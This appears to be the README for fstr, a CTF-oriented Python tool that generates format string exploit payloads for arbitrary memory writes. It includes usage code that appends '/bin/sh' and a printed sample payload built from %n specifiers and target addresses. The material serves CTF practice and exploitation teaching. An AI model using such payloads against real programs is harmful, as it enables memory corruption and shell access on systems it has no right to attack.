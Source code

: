 # fstr: Automatic format string payloads
fstr is a powerful, lightweight tool which instantly generates payloads for arbitrary writes using format string vulnerabilities. Unlike other automated payload generators, fstr writes all addresses to the end of the payload instead of the beginning to make sure that the vulnerable printf acutally reaches all the format specifiers.
![demo](images/demo.png)

# Installation
Create a virtual environment if you haven't already:
```
python3 -m venv .venv
. .venv/bin/activate
```
Then install:
```
git clone https://github.com/TheKrizzler/fstr.git
pip3 install ./fstr
```
# Usage
This tool is primarily meant as a python library, but it also has a CLI. For the generated payload to function properly, the following requirements must be met.  
 - Your input must be stored on the stack, and must be findable using a format specifier leak. The offset at which your input is found using this leak, corresponds to the keyword argument 'offset'.  
 - You must not prepend anything to the payload, unless you know what you're doing.  
 - If you want to include another format specifier (to leak an address for example), you must do modify the payload carefully, by changing the padding and offsets manually if necessary.
## Python
To start off, create either a `FormatString64` or `FormatString32` object with the following arguments: writes, offset, append.  
  
Simply use the `.craft()` method to create the payload. This method will return the payload as a bytestring, so it can be saved and used later.
```python
from fstr import FormatString64

addr = 0x7fffffffdc00
data = 0x4011ae

fmtstr = FormatString64(writes={addr:data},offset=6,append='/bin/sh\0')
payload = fmtstr.craft()
```
`write`: Takes a dictionary containing all desired writes.  
`offset`: An integer representing the offset at which your own input can be found using a format string vulnerablity. **The payload will not work if the offset is incorrect**   
`max_write`: Takes an int for maximum number of bytes each %x format specifier can write. Reduces total bytes output by the printf, but increases payload length.  
`append`: A string to append to the payload. Does the exact same thing as appending text manually.  

## CLI
Run the following command to see the help menu.
```
$ fstr -h
usage: fstr [-h] -w WRITE --arch {32,64} [-o OFFSET] [-m MAX] [-a APPEND] [-r]

options:
  -h, --help            show this help message and exit
  -w WRITE, --write WRITE
                        REQUIRED - Specify a single address:data pair
                        in hex, i.e 0x404000:0x1337. Can be used multiple
                        times.
  --arch {32,64}        REQUIRED - Specify either 32-bit or 64-bit
                        architecture
  -o OFFSET, --offset OFFSET
                        Specify the offset at which your input is found using
                        a format string vulnerability
  -m MAX, --max MAX     Specify a maximum amount of bytes each format
                        specifier can write. (use this if the payload is
                        crashing your terminal)
  -a APPEND, --append APPEND
                        Specify a string to append to the payload
  -r, --raw             Outputs the only final payload as raw bytes.
```
Example use:
```
$ fstr --arch 64 -w 0x404000:0x1337 -o 6 -a '/bin//sh'
  __       _         
 / _|     | |        
| |_  ___ | |_  _ __ 
|  _|/ __|| __|| '__|
| |  \__ \| |_ | |   
|_|  |___/ \__||_|   
by @TheKrizzler
[*] b'%9$hn%10$n%4919x%11$hn..\x02@@\x00\x00\x00\x00\x00\x04@@\x00\x00\x00\x00\x00\x00@@\x00\x00\x00\x00\x00/bin//sh'
[*] Length: 56

```
# Disclaimer
fstr is a tool designed exclusively for use in Capture The Flag (CTF) competitions and educational purposes. It is not intended for any illegal or malicious activities. The creators and distributors of fstr do not condone or support the use of this tool for unauthorized access or any activities that violate applicable laws and regulations. Users are responsible for ensuring that their use of fstr complies with all relevant legal requirements.
